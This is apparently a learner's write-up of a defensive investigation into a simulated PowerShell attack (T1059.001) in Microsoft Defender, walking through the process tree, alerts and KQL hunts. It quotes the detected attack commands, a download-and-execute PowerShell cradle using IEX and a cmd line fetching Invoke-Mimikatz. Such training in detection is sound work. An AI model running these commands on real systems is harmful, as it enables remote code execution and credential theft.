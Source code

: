 # PowerShell Attack Investigation – T1059.001

I wanted to share how I approached this investigation, the steps I took, my thought process and what I learned throughout the analysis.

I picked T1059.001 PowerShell Technique because powershell is mainly used by IT so seeing it run under a normal user like Jenny looks suspicious and is a good place for a beginner to start hunting.

Lets Go.

## 5 Prepared Questions

Before I looked at the alerts I had already prepared five questions that I wanted to start my investigation:

1. What connects these alerts?
2. Which alert came first?
3. What actually ran?
4. Who did it?
5. What happened next?

## The Process Tree – My Findings

This part was a bit confusing at first because as shown in the screenshot, it looks like [pid 14920] powershell.exe launched [pid 8540] cmd.exe. But after checking the timestamps, I realised that [pid 14920] powershell.exe belonged to an earlier user session. The real chain of events was that [pid 8540] cmd.exe created [pid 12236] powershell.exe, which then used DownloadString with IEX (Invoke-Expression) to pull a script from GitHub and run it directly as PowerShell code. This confirmed that the root cause was an interactive PowerShell session started by Jenny’s remote login, not an automated task or background service. That was the point where the simulated attack really began.

[View Process Tree](Process-Tree.PNG)



## The Process Tree – What I Learnt

Looking at the process tree, I realised it shows activity that started before the actual attack time. That is because it includes the parent processes, helping you see exactly how the suspicious one was launched. In this case, PowerShell was started interactively under Jenny’s session, not by a background service. Seeing explorer.exe as the parent process confirmed it came from user activity rather than persistence or an automatic startup.

I also found it helpful that the process tree highlights Remote Execution for the chain userinit.exe > explorer.exe > powershell.exe, showing the action took place within an RDP session.

I also noticed that Defender had blocked and resolved several related threats that never appeared on the alert summary although they were displayed in the Process Tree and Incidents. So because Defender stopped the threats before they were executed, it marked them as resolved, which means they no longer required further action and therefore did not show up in the Alerts summary for triage.

## The Alert Timeline – My Findings

### Alert 1: Suspicious PowerShell Command Line

At first I just saw a long PowerShell command but then I realised why Defender flagged it. It had some red flags like IEX (Invoke-Expression), the DownloadString which pulls the GitHub code from the internet and the -exec bypass flag.

Here’s the command Defender caught:

```text
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```

The remote session came from 192.168.1.72, logged in as AzureAD\JennySmith.

[View Alert Timeline – Suspicious PowerShell Command Line](Alert-Timeline-Suspicious-Powershell-Command-Line.PNG)


### Alert 2: Suspicious Process Executed PowerShell Command

The details in this alert looked almost identical to the first one however they both tell different things.  
Alert 1 is that Defender noticed a suspicious command.  
Alert 2 confirms that the suspicious command was actually executed.

### Alert 3: Mimikatz Credential Theft Tool

The previous alerts led up to this big one which was the main goal of the attacker. Defender confirmed the suspicious command tried to run the Mimikatz tool, which is known for stealing passwords from memory. The command showed PowerShell trying to download and run the script from GitHub. Defender caught it straight away and marked it as Trojan:PowerShell/Mimikatz.A, blocking it before it could dump any credentials.

The command looked like this:

```text
C:\Windows\System32\cmd.exe /c powershell.exe IEX (New-Object Net.WebClient).DownloadString(...Invoke-Mimikatz.ps1)
```

[View Alert – Mimikatz Credential Theft Tool](Alert-Mimikatz-Credential-Theft-Tool.PNG)



## Advanced Hunting – KQL

So far the Process Tree and Timeline have shown the story that started with a suspicious PowerShell command, then the process actually ran during Jenny’s RDP session, and finally it tried to execute Mimikatz to steal credentials but Defender stopped it. However I was keen to investigate the endpoints further and validate the alerts.

I have listed the following 4 KQL queries here : [View KQL Queries](../KQL/KQL-Queries.kql)



### KQL Query 1 – Confirm PowerShell Execution

The KQL query on DeviceProcessEvents confirmed that at 16:05 BST, Jenny’s VM executed powershell.exe from cmd.exe using the IEX and DownloadString to pull a script from GitHub. This aligns exactly with the Defender alerts for suspicious PowerShell activity and validates that the simulated T1059.001 attack produced real telemetry.

[View KQL Query Results – Confirm PowerShell Execution](../KQL/KQL-Query-Confirm-Poweshell-Execution.PNG)


At this point, I already had all the answers I needed as far as the simulated attack goes. However I wanted to dig deeper and practise using KQL as if this was a real investigation.

### KQL Query 2 – Look For Mimikatz

This was really interesting! I hunted for the string Invoke-Mimikatz and I got **No Results!** How is this possible when we have already confirmed the attacker’s DownloadString contained Invoke-Mimikatz?

It’s because the malicious code was blocked and never actually ran so there are no logs for it. This is very important to know that Defender Alerts are based on detection and the endpoint telemetry is not the same!

### KQL Query 3 – Look For Spread of the PowerShell Activity

The results showed that only one device ran the suspicious PowerShell command. This was expected because I had only onboarded one endpoint to Defender. I just wanted to practise building the KQL queries.

[View KQL Query Results – Confirm PowerShell Execution](../KQL/KQL-Spread-Powershell-Activity.PNG)

### KQL Query 4 – Look For Persistence

My persistence query came back with no results is because the Atomic Red Team simulation (T1059.001) was only designed to test PowerShell execution, not persistence. It launched a suspicious PowerShell command that Defender detected and blocked straight away, so it never went on to create any scheduled tasks or user accounts.

## Final Note

I really enjoyed this investigation and found it a great way to put what I have been learning into practice. I tried to make the most of the challenge by treating it like a real attack instead of a simulation so that I could go further. I am developing my analyst skills through the MyDFIR Skool by Steven Mah.
